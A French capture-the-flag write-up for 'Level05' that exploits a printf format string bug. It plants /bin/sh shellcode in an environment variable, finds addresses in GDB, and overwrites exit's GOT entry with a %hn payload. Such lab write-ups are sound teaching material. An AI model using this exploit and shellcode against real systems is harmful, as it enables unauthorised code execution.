 # Level05

Pour ce niveau, il s'agit d'exploiter une vulnérabilité de type "format string" dans un programme C.

## Étapes de résolution

1. **Analyse du programme**
   - Le programme lit un input utilisateur (max 100 caractères).
   - Il convertit les majuscules en minuscules.
   - Il affiche l'input avec `printf(input_buffer);` sans format, ce qui introduit une vulnérabilité de type format string.

2. **Trouver l'offset pour l'attaque format string**
   - On envoie :
     ```sh
     python -c 'print("AAAA" + "%x "*25)'
     ```
   - On observe que l'offset pour atteindre notre payload est 10.

3. **Préparer le shellcode**
   - On place un shellcode dans une variable d'environnement :
     ```sh
     export SHELLCODE=$(python -c 'print("\x90"*90 + "\x31\xc9\xf7\xe1\x04\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')
     ```
   - On trouve son adresse dans GDB :
     ```gdb
     break main
     run
     x/20s *((char**)environ)
     ```
     Exemple d'adresse trouvée : `0xffffde05`

4. **Trouver une fonction à réécrire**
   - On choisit de réécrire l'adresse de `exit` (appelée après le printf).
   - Adresse à modifier trouver dans gdb avec disas main puis disas le call a la fonction exit: `0x80497e0`

5. **Construire le payload d'exploitation**
   - On split l'adresse du shellcode pour écrire en deux fois (2 bytes à la fois) :
     - `ffff` = 65535
     - `de05` = 56837 (on ajoute 0x10 pour tomber dans le NOP sled : 56853)
   - Payload :
     ```sh
     (python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%56845x%10$hn%8682x%11$hn" )'; cat) | ./level05
     ```

## Explication du code vulnérable

```c
void main(void)
{
    char input_buffer[100];
    int index = 0;
    
    fgets(input_buffer, 100, stdin);
    

    int string_length = 0;
    char *ptr = input_buffer;
    while (*ptr != '\0') {
        string_length++;
        ptr++;
    }
    
    index = 0;
    while (true) {
        if (index >= string_length) {

            printf(input_buffer);  // Notre Vulnérabilité
            exit(0);
        }
        
        // Convertie maj en min
        if (('@' < input_buffer[index]) && (input_buffer[index] < '[')) {
            input_buffer[index] = input_buffer[index] ^ 0x20;
        }
        
        index++;
    }
}
```

## Notes
- Cette attaque exploite la vulnérabilité format string pour écraser l'adresse de sortie du programme et rediriger l'exécution vers notre shellcode placé dans l'environnement.
- L'utilisation de `env -i` permet de contrôler précisément l'environnement et d'alléger l'espace mémoire pour placer le shellcode à une adresse prévisible.\

Si vous avez des difficulté a tomber sur votre shellcode malgré le MOP sled alors **lancez le binaire dans un environnement minimal**
   ```sh
   env -i ./level05
   ```
   Cela permet d'avoir un environnement propre et de placer facilement un shellcode dans une variable d'environnement.
